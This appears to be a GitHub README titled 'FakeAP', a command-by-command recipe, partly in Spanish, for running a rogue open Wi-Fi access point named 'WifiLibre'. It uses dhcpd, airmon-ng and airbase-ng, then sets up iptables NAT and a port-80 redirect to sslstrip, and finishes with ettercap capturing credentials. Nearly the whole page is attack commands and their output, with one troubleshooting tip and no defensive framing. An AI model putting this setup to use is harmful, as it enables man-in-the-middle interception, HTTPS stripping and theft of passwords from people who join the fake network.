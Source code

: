 FakeAP

- install dhcpd
- nano /etc/dhcpd.conf
                    authoritative;
                    default-lease-time 600;
                    max-lease-time 7200;
                    subnet 192.168.1.0 netmask 255.255.255.0 {
                    option routers 192.168.1.1;
                    option subnet-mask 255.255.255.0;
                    option domain-name "WifiLibre";
                    option domain-name-servers 192.168.1.1;
                    range 192.168.1.2 192.168.1.40;
                    }

- airmon-ng start wlan0
- airbase-ng -c 11 -e WifiLibre wlan0mon
- root@Jamon:~# ifconfig at0 192.168.1.1 netmask 255.255.255.0
- root@Jamon:~# ifconfig at0 mtu 1500
- root@Jamon:~# route add -net 192.168.1.0 netmask 255.255.255.0 gw 192.168.1.1
- root@Jamon:~# echo 1 > /proc/sys//net/ipv4/ip_forward
- root@Jamon:~# iptables -t nat -A PREROUTING -p udp -j DNAT --to 192.168.0.1
- root@Jamon:~# iptables -P FORWARD ACCEPT
- root@Jamon:~# iptables --append FORWARD --in-interface at0 -j ACCEPT
- root@Jamon:~# iptables --table nat --append POSTROUTING --out-interface wlan0 -j MASQUERADE
- root@Jamon:~# iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000
- root@Jamon:~# dhcpd -cf /etc/dhcpd.conf -pf /var/run/dhcpd.pid at0
                Internet Systems Consortium DHCP Server 4.3.1
                Copyright 2004-2014 Internet Systems Consortium.
                All rights reserved.
                For info, please visit https://www.isc.org/software/dhcp/
                Config file: /etc/dhcpd.conf
                Database file: /var/lib/dhcp/dhcpd.leases
                PID file: /var/run/dhcpd.pid
                Wrote 1 leases to leases file.
                Listening on LPF/at0/00:1a:ef:06:bb:47/192.168.1.0/24
                Sending on   LPF/at0/00:1a:ef:06:bb:47/192.168.1.0/24
                Sending on   Socket/fallback/fallback-net
- root@Jamon:~# /etc/init.d/isc-dhcp-server start
                [ ok ] Starting isc-dhcp-server (via systemctl): isc-dhcp-server.service.
- sslstrip -f -p -k 10000
- ettercap -p -u -T -q -i at0
- 



Posibles Errores: 
-Can't open lease database /var/lib/dhcp/dhcpd.leases: No such file or directory --
-Solucion: # #touch /var/lib/dhcp/dhcpd.leases


<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>
